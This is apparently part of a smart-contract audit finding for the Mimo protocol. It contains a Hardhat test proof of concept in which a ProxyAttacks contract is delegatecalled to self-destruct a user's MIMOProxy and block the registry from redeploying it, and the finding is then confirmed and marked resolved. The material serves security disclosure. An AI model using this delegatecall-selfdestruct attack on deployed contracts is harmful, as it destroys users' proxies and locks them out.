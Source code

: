 ```typescript
    args: [mimoProxyBase.address],
  });
  const mimoProxyFactory: MIMOProxyFactory = await ethers.getContract("MIMOProxyFactory");

  await deploy("MIMOProxyRegistry", {
    from: owner.address,
    args: [mimoProxyFactory.address],
  });
  const mimoProxyRegistry: MIMOProxyRegistry = await ethers.getContract("MIMOProxyRegistry");

  await deploy("ProxyAttacks", {
    from: owner.address,
    args: [],
  });
  const proxyAttacks: ProxyAttacks = await ethers.getContract("ProxyAttacks");

  return {
    owner,
    attacker,
    mimoProxyBase,
    mimoProxyFactory,
    mimoProxyRegistry,
    proxyAttacks,
  };
});

describe("Proxy attack tests", () => {
  it("Proxy instance self destruct + recreation", async () => {
    const { owner, mimoProxyRegistry, proxyAttacks } = await setup();
    await mimoProxyRegistry.deploy();
    const currentProxy = await mimoProxyRegistry.getCurrentProxy(owner.address);
    const proxy = await ethers.getContractAt("MIMOProxy", currentProxy);

    // Delegatecall to selfDestruct on ProxyAttacks contract
    await proxy.execute(proxyAttacks.address, "0x9cb8a26a");

    // Owner's existing proxy is destroyed
    expect(proxy.owner()).to.be.revertedWith("call revert exception");

    // Cannot deploy another proxy for this address through the registry
    await expect(mimoProxyRegistry.deploy()).to.be.revertedWith("function returned an unexpected amount of data");
  });
});
```
**[RayXpub (Mimo) confirmed and commented](https://github.com/code-423n4/2022-08-mimo-findings/issues/162#issuecomment-1210522543):**
 > We confirm this issue and intend to implement a fix. 

**horsefacts (warden) reviewed mitigation:**
> **Status:** ✅ Resolved
